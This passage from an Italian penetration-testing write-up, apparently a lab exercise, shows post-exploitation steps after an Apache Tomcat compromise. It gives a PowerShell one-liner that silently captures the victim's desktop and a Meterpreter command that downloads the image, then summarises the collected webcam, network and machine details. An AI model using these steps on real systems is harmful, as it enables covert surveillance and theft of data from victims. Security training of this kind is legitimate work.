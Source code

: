 ##### 4.4 Cattura di uno screenshot

- Aprire PowerShell dalla shell di Windows:
  ```powershell
  Add-Type -AssemblyName System.Windows.Forms; Add-Type -AssemblyName System.Drawing; $bmp = New-Object Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height); $graphics = [Drawing.Graphics]::FromImage($bmp); $graphics.CopyFromScreen(0, 0, 0, 0, $bmp.Size); $bmp.Save('C:\Windows\Temp\screenshot.png'); $bmp.Dispose(); $graphics.Dispose()
  ```
- Tornare a Meterpreter e scaricare lo screenshot:
  ```bash
  download C:\Windows\Temp\screenshot.png
  ```

### ✅ Conclusioni

- Il servizio Apache Tomcat è stato sfruttato con successo per ottenere una sessione Meterpreter.
- Sono state raccolte evidenze riguardo alla macchina target:
  - Tipo di macchina (virtuale o fisica).
  - Configurazioni di rete.
  - Stato delle webcam.
  - Screenshot del desktop.

